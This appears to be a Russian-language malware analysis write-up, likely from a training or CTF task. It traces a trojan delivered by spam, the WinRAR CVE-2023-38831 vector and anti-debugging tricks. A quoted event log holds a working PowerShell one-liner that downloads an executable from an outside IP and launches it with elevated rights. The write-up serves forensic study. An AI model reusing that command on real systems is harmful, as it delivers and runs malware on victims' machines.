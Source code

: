 # 1 Как ВПО попало на компьютер?
Через спам рассылку на почту

# 2 С какого сервера?
Посмотрев события винды видим откуда был скачан файл:

ip: http://95.169.192.220:8080
Logfile:

```
file:///C:/Users/Evgeniy/AppData/Local/Temp/Rar$DIa2900.6159/TOP_SECRET.pdf
Trojan:Win32/Znyonm
Поставщик "Registry" находится в состоянии Started. 

Подробные сведения: 
	ProviderName=Registry
	NewProviderState=Started

	SequenceNumber=1

	HostName=ConsoleHost
	HostVersion=5.1.19041.906
	HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1
	HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop
	EngineVersion=
	RunspaceId=
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```
3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО?

Уязвимость: CVE-2023-38831, [https://habr.com/ru/articles/797127/](https://habr.com/ru/articles/797127/)

# 4 Какие методы противодействия отладке использует программа? 

При исполнении программы вызываются прерывания int 3 которые без откладчика вызовут EXCEPTION_BREAKPOINT и будут переданы обработчику исключений, а при присутствии исключение не будет передано обработчику \
isDebuggerPresent() возвращает true, если программа в деабггере и false
